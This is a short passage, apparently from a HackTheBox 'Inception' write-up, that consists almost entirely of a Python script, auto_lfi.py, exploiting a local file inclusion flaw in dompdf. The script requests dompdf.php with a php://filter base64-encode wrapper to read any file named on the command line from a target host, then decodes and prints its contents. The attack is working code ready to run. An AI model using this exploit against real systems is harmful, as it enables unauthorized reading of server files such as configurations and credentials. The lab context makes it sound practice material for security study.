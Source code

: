 Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-22-HackTheBox-Inception/2021-09-22-HackTheBox-Inception%2004:05:21.png)

auto_lfi.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto LFI dompdf - Inception HackTheBox

import argparse
import requests
import sys
import re
import base64

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

#Function to decode base64
def b64d(s):
    return base64.b64decode(s).decode()

# Function to get the base64 content
def readFile(rhost,file):
    print("[+] Let's get the file you want !! [+]")
    print("[+] The file is %s !! [+]" %file)
    print(" ----------------------------------------- ")
    url = "http://%s:80/dompdf/dompdf.php?input_file=php://filter/read=convert.base64-encode/resource=%s" %(rhost,file)
    response = r.get(url, proxies=proxies)
    base64_file= re.search('\[\(.*\]', response.text).group(0)
    base64_file = base64_file.removeprefix('[(').removesuffix(')]')
    base64_decoded = b64d(base64_file)
    print(base64_decoded.strip())
    print(" ----------------------------------------- ")
    
def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-f', '--file', help='File to be read', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    file = args.file

    '''Here we call the functions'''
    # Let's read the file
    readFile(rhost,file)

if __name__ == '__main__':
    main()
```
